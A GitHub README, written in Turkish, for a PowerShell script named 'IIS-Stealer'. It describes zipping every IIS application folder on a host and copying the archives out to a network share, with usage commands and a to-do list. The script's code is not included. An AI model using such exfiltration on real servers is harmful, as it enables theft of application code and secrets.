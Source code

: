 # IIS-Stealer

Çalıştığı sistemde bulunan IIS içindeki tüm uygulamaların klasörlerini zipleyip dışarıya atan kod parçacığı.

## Kullanımı

```
./srealer.ps1 ZIPLENEN-DOSYALARIN-KOPYALANACAGI-DIZIN ZIP-DOSYA_ADININ-ONADI

./stealer.ps1 \\LOCAL\paylasim prefix[optional]
```

## Yapılacaklar Listesi

* Hedef sistemin diski "zip" oluşturmaya yetecek kadar boş alana sahipliğinin kontrolü
* Diğer IIS uygulamaları aynı dizini paylaşıyorsa, EN üst dizin zaten altındaki uygulamaları kapsadığından çalışma süresi uzuyor.
